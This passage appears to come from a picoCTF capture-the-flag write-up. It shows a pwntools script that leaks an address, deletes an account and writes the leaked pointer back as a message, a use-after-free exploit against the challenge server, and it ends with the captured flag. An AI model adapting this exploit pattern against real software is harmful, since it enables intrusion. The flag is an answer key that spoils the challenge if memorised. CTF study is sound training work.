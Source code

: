 ```python
  send_command(Commands.SUBSCRIBE)
  line = io.recvlineS()
  if line == "Not logged in!":
    return None
  elif memleak_line in line:
    addr = int(line.replace(memleak_line, "").strip(), 16)
    log.info("Leaked address: {}".format(hex(addr)))
    io.recvline()
    return addr
  else:
    raise RuntimeError(f"Unexpected output during subscription: {line}")

def delete_account():
  log.info("Deleting account")

  send_command(Commands.DELETE_ACCOUNT)
  io.sendlineafter("You're leaving already(Y/N)?\n", "Y")
  io.recvline()

def leave_message(msg):
  log.info("Leaving message:\n{}".format(hexdump(msg)))
  send_command(Commands.LEAVE_MESSAGE)
  io.sendlineafter("try anyways:\n", msg)

def exit():
  log.info("Exiting")
  send_command(Commands.EXIT)

io = remote("mercury.picoctf.net", 4504) if sys.argv[1] == "remote" else ELF("./vuln").process()

hahaexploitgobrrr_addr = subscribe()
delete_account()
payload = p32(hahaexploitgobrrr_addr)
leave_message(payload)
log.success(io.recvlineS())
exit()
```


## Flag
`picoCTF{d0ubl3_j30p4rdy_4245f637}`

